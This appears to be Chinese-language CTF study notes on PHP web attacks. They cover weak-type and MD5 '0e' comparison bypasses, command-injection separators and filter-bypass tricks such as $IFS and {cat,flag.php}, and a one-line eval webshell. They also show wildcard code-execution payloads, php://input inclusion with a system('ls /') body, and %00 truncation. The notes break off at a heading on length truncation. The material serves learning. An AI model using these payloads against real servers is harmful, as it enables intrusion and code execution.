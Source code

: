 ### PHP代码审计
#### 弱类型
* `===`比较时会判断类型是否相同再比较
* `==`比较时会将字符串类型转化为相同再比较
* 由此可以演化出一系列弱类型攻击方法
#### 哈希绕过（MD5）
* 数组 array->null可以实现强相等
* "0exxxxx" == "0eyyyy" //true
* MD5哈希碰撞可以实现字符串强相等
#### 命令注入
* 执行系统命令时注入恶意拼接的代码，一般来说web服务器的用户执行权限是www-data
- r = 4; w = 2; x = 1;
    * -rwxr--r--等价于一个文件权限是744
    * drwxr--r--等价于一个目录权限是744
#### 常用shell命令
* `echo 'abc' | md5sum` 管道
* `%0a` `%0d` 换行符
* `;` 无论如何都执行
* `&&` 成功后执行
* `||` 失败后执行
#### Bypass
* 过滤空格的绕过
* `$IFS` `${IFS}` `$IFS$9` `<` `<>` `{cat,flag.php}` `%20` `%09`
- 过滤关键字的绕过
    * 反斜线`\`绕过
    * 两个单引号`''`绕过
    * base64 hex绕过
    * 通配符匹配 
    * 变量绕过
* 双写绕过（添加自身）
#### 代码执行
* `<? php eval($_POST[0]);?>` 一句话木马，因为evel把字符串当代码执行
* 异或绕过
* 取反绕过
* 正则表达式 ?><?=`/???/???%20*` 可以匹配上 echo `/bin/cat/flag.php`
* `$f=create_function('$a, $b, $code');`
#### HTTP参数传递
* GET方法传递
* POST方法传递
#### robots.txt君子协定
* 口头禁止爬虫爬取robot.txt下的内容


### PHP反序列化
* 序列化serialize()将变量转化为字符串
* 反序列化unserialize()
* POP 面向属性编程(Property-Oriented Programing) 

### PHP文件上传
- 经常和文件包含结合

### PHP文件包含
- [文件包含漏洞](https://cdn.zjusec.com/PHP%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93.html)
- 本地文件包含 相对于被攻击服务器的本地文件
- 远程文件包含 相对于被攻击服务器的远程文件
#### php伪协议
- `file://`


- `php://input`用于把input内容当作php代码执行
    * 在协议头输入： ?/file=php://input
    * `?/file=php://input%00`可以用作截断
    * 在请求体输入：<?PHP system("ls /"); ?>`


#### 00截断
- payload后加上`%00`

#### 长度截断